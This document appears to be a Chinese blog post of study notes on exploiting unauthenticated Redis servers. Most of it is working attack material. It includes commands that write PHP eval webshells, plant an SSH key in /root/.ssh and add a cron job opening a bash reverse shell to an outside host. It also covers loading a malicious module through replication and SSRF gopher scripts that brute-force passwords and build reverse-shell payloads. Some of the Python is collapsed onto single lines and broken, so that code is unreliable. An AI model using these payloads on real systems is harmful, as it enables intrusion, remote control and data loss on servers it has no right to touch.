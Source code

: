 ```yaml
---
layout: post
title: redis 未授权利用
date: 2022-8-06
categories: blog
tags: [笔记,redis,测试]
description: redis在未授权登录后的利用学习笔记
---
```


# **redis梳理**

redis命令了解 http://redisdoc.com/

**1.redis写入shell**（最常用的getshell套路，但因为权限问题，失败概率较高）

```shell
>CONFIG SET dir /VAR/WWW/HTML
>CONFIG SET dbfilename shell.php
>SET PAYLOAD '<?php eval($_GET[0]);?>'#set x "\r\n\r\n<?php phpinfo();?>\r\n\r\n" redis写入文件时会自带一些版本信息，不换行可能导致无法执行
>BGSAVE
```

tips:攻击者会在上线未授权或弱口令登录redis后在写马前，执行flushall,部分原因是因为redis数据都是缓存在内存中,所写内容有限，flushall清空数据来保证写马成功，但会造成数据丢失

利用条件：服务端连接redis存在未授权，并未登录验证
                  开了服务端存在web服务器，且知道web目录的路径

**2.写ssh&corn**（条件较为苛刻）

```shell
ssh-keygen -t rsa #生成密钥
cd .ssh & (echo -e "\n\n"; cat id_rsa.pub;echo -e "\n\n")>1.txt #本地执行将密钥写入
cat 1.txt | redis-cli -h x.x.x.x -x set crack #写入公钥 -x 代表从标准输⼊读取数据作为该命令的最后⼀个参数
>config set dir /root/.ssh
>config dbfilename keys
ssh -i id_rsa root@x.x.x.x #本地连接getshell

#写计划任务反弹shell
>set evil "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/x.x.x.x/1234 0>&1\n\n"
>config set dir /var/spool/cron
>config set  dbfilename root
>save
#局限性：redis写文件后的默认权限是644，但是ubuntu执行定时任务的权限是600，且ubun存在乱码会报错，所以写定时任务只能在centos上执行
```

利用已有脚本 hackredis.py

利用条件：服务端redis存在未授权，并未登录验证
                  服务端存在.ssh目录并且有写入权限

**3.设置主从复制加载恶意module**(也同样需要高权限操作，且数据同步容易删除目标redis上存储的数据)

设置目标机器为服务器的从属服务器

```shell
>SLAVEOF 127.0.0.1 7000 #设置7000的服务器为本服务的主服务器
>SLAVEOF NO ONE #取消主从复制
```

利用前验证环境可用性

```shell
>PING #测试连通性
>REPLCONF #刷新主从关系信息
>PSYNC/SYNC #验证是否可以正常连接
```

开始主从复制利用

```shell
#将目标redis设置为slave
>SLAVEOF IP port 
#设置redis数据库文件
>CONFIG SET dbfilename exp.so #主redis设置恶意模块
#加载恶意模块
>MODULE LOAD /var/lib/redis/exp.so #目标redis加载恶意模块
#实现命令执行
```

附录：redis module编写方法
编写模块不需要依赖redis或者其他库，只需要`#include "redismodule.h"`这个文件就可以编写
模块里必须有一个 `RedisModule_OnLoad() `函数，是模块入口点，可以在函数里定义模块名、新命令、新数据类型等等，其它内容与c,c#,cython写法相近

redis4.0以下可以通过主从复制把shell写入键值,新版本需要`protected-mode no`

**4.ssrf打redis**
利用gopher发送恶意代码攻击redis包括爆破redis弱口令和主从复制打redis爆破弱口令脚本：

```python
#参考代码
import urllib
import requests
import os

payload =
"""*2
$4
AUTH
${0}
{1}
QUIT
"""

with open("top500.txt") as f:
    for i in f:
        password = i.strip()
        length = len(password)
        poc = payload.format(length,password)
        tmp = urllib.parse.quote(poc)
        new = tmp.replace('%0A','%0D%0A')
        result = '_'+new
        result = "gopher://192.168.242.129:6379/"+result
        status = os.system('curl %s'%result)
        if status:
            print(password)
            break
            
import urllib
import requests
import os

payload =
"""*2
$4
AUTH
${0}
{1}
QUIT
"""
u ="http://127.0.0.1/?url={0}"

with open("top500.txt") as f:
    for i in f:
        password = i.strip()
        length = len(password)
        poc = payload.format(length,password)
        tmp = urllib.parse.quote(poc)
        new = tmp.replace('%0A','%0D%0A')
        result = '_'+new
        result = "gopher://192.168.242.129:6379/"+result
        url = u.format(result)
        print(url)
```

主从复制打redis工具：https://github.com/Dliv3/redis-rogue-server

附录：RESP协议
redis在1.2中引入RESP协议，redis2.0开始成为redis标准通信方式，例如下面的利用脚本。

```shell
*4
$6
config
$3
set
$3
dir
$5
/tmp/
*4
$6
config
$3
set
$10
dbfilename
$9
module.so
*3
$7
slaveof
$7 #ip长度
test.cn #ip
$4 #端口长度
8080 #端口
*3
$6
module
$4
load
$14
/tmp/module.so
*2
$11
system.exec
$2
id #执行的命令
*1
$4
quit
```

上述代码利用工具编码，使用gopher协议发包即可命令执行
rogue-sever.py需要一个死循环一直跑，防止目标redis连接上后就自动断开连接，导致exp.so没法传完

```shell
#do.sh
while ["1"="1"]
do
   python rogue-sever.py
done
```

tips：生成的payload需要二次编码后发送才能利用

```python
/*gopher协议反弹shell利⽤脚本*/
import urllib
protocol="gopher://"
ip="192.168.127.140"
port="6379"
reverse_ip="192.168.127.131"
reverse_port="7777"
cron="\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/%s/%s 0>&1\n\n\n\n"%
(reverse_ip,reverse_port)
filename="root"
path="/var/spool/cron"
passwd=""
cmd=["flushall", "set 1 {}".format(cron.replace(" ","${IFS}")), "config set dir
{}".format(path), "config set dbfilename {}".format(filename), "save" ]
if passwd: cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr): CRLF="\r\n" redis_arr = arr.split(" ") cmd=""
cmd+="*"+str(len(redis_arr)) for x in redis_arr:
cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
cmd+=CRLF return cmd if __name__=="__main__": for x in cmd: payload +=
urllib.quote(redis_format(x)) print payload
```

弱密码测试
`nc ip 6379` 这时就是连接成功
输入 `INFO` 或 `PING` 如果成功，则未设置密码，如果显示 `-NOAUTH Authentication required`，则设置了密码
输入 `auth 123456`，即进行密码认证，测几个弱密码就行

**5.redis 利用bypass**

5.1 数据库过大时，redis写shell技巧(即1中第三步)

```shell
set payload "\r\n\r\n<?php set_time_limit(0);$fp=fopen('evil.php','w');fwrite($fp,'<?php @eval($_POST[\"evil\"]);?>');\r\n\r\n"
exit();
?>"
```

